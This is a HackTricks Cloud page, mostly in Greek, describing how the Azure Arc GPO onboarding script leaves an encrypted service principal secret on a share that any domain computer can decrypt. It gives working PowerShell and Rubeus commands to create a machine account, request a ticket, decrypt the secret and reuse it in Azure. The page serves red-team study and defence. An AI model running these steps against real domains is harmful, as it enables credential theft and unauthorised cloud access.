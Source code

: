 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Το Azure Arc επιτρέπει την ενσωμάτωση νέων εσωτερικών διακομιστών (διακομιστές που έχουν ενταχθεί σε τομέα) στο Azure Arc χρησιμοποιώντας τη μέθοδο Group Policy Object. Για να διευκολυνθεί αυτό, η Microsoft παρέχει ένα εργαλείο ανάπτυξης που είναι απαραίτητο για την έναρξη της διαδικασίας ενσωμάτωσης. Μέσα στο αρχείο ArcEnableServerGroupPolicy.zip, μπορούν να βρεθούν τα εξής σενάρια: DeployGPO.ps1, EnableAzureArc.ps1 και AzureArcDeployment.psm1.

Όταν εκτελείται, το σενάριο DeployGPO.ps1 εκτελεί τις εξής ενέργειες:

1. Δημιουργεί το GPO Onboarding Διακομιστών Azure Arc εντός του τοπικού τομέα.
2. Αντιγράφει το σενάριο ενσωμάτωσης EnableAzureArc.ps1 στο καθορισμένο κοινόχρηστο δίκτυο που έχει δημιουργηθεί για τη διαδικασία ενσωμάτωσης, το οποίο περιέχει επίσης το πακέτο εγκατάστασης των Windows.

Κατά την εκτέλεση αυτού του σεναρίου, οι διαχειριστές συστημάτων πρέπει να παρέχουν δύο κύριες παραμέτρους: **ServicePrincipalId** και **ServicePrincipalClientSecret**. Επιπλέον, απαιτούνται άλλες παράμετροι όπως ο τομέας, το FQDN του διακομιστή που φιλοξενεί το κοινόχρηστο, και το όνομα του κοινόχρηστου. Περαιτέρω λεπτομέρειες όπως το tenant ID, η ομάδα πόρων και άλλες απαραίτητες πληροφορίες πρέπει επίσης να παρέχονται στο σενάριο.

Ένα κρυπτογραφημένο μυστικό δημιουργείται στον κατάλογο AzureArcDeploy στο καθορισμένο κοινόχρηστο χρησιμοποιώντας κρυπτογράφηση DPAPI-NG. Το κρυπτογραφημένο μυστικό αποθηκεύεται σε ένα αρχείο με το όνομα encryptedServicePrincipalSecret. Απόδειξη αυτού μπορεί να βρεθεί στο σενάριο DeployGPO.ps1, όπου η κρυπτογράφηση εκτελείται καλώντας το ProtectBase64 με $descriptor και $ServicePrincipalSecret ως είσοδοι. Ο περιγραφέας αποτελείται από τα SIDs της ομάδας Domain Computer και Domain Controller, διασφαλίζοντας ότι το ServicePrincipalSecret μπορεί να αποκρυπτογραφηθεί μόνο από τις ομάδες ασφαλείας Domain Controllers και Domain Computers, όπως σημειώνεται στα σχόλια του σεναρίου.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Εκμετάλλευση

Έχουμε τις εξής συνθήκες:

1. Έχουμε διεισδύσει με επιτυχία στο εσωτερικό δίκτυο.
2. Έχουμε τη δυνατότητα να δημιουργήσουμε ή να αναλάβουμε τον έλεγχο ενός λογαριασμού υπολογιστή εντός του Active Directory.
3. Έχουμε ανακαλύψει μια κοινή χρήση δικτύου που περιέχει τον φάκελο AzureArcDeploy.

Υπάρχουν αρκετές μέθοδοι για να αποκτήσουμε έναν λογαριασμό μηχανής σε ένα περιβάλλον AD. Μία από τις πιο κοινές είναι η εκμετάλλευση του ποσοστού λογαριασμών μηχανών. Μια άλλη μέθοδος περιλαμβάνει την παραβίαση ενός λογαριασμού μηχανής μέσω ευάλωτων ACL ή διάφορων άλλων κακών ρυθμίσεων.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Μόλις αποκτηθεί ένας λογαριασμός μηχανής, είναι δυνατή η αυθεντικοποίηση χρησιμοποιώντας αυτόν τον λογαριασμό. Μπορούμε είτε να χρησιμοποιήσουμε την εντολή runas.exe με την επιλογή netonly είτε να χρησιμοποιήσουμε pass-the-ticket με το Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Με την TGT για τον λογαριασμό του υπολογιστή μας αποθηκευμένο στη μνήμη, μπορούμε να χρησιμοποιήσουμε το παρακάτω σενάριο για να αποκρυπτογραφήσουμε το μυστικό του υπηρεσιακού κύριου.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Εναλλακτικά, μπορούμε να χρησιμοποιήσουμε [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Σε αυτό το σημείο, μπορούμε να συγκεντρώσουμε τις υπόλοιπες πληροφορίες που χρειάζονται για να συνδεθούμε στο Azure από το αρχείο ArcInfo.json, το οποίο είναι αποθηκευμένο στο ίδιο κοινόχρηστο δίκτυο με το αρχείο encryptedServicePrincipalSecret. Αυτό το αρχείο περιέχει λεπτομέρειες όπως: TenantId, servicePrincipalClientId, ResourceGroup και άλλα. Με αυτές τις πληροφορίες, μπορούμε να χρησιμοποιήσουμε το Azure CLI για να αυθεντικοποιηθούμε ως ο παραβιασμένος service principal.

## Αναφορές

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
